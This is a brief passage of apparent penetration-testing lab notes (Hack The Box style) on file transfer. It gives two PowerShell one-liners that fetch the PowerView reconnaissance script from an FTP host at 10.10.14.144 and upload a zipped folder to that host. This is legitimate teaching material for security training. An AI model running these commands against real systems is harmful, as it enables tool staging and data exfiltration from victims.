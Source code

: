 
PowerShell Download
```powershell-session
(New-Object Net.WebClient).DownloadFile('ftp://10.10.14.144/PowerView.ps1', 'Z:\tools\PowerView.ps1')
```

Powershell Upload 
```
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://10.10.14.144/ILFREIGHT.zip', 'C:\tools\ILFREIGHT')
```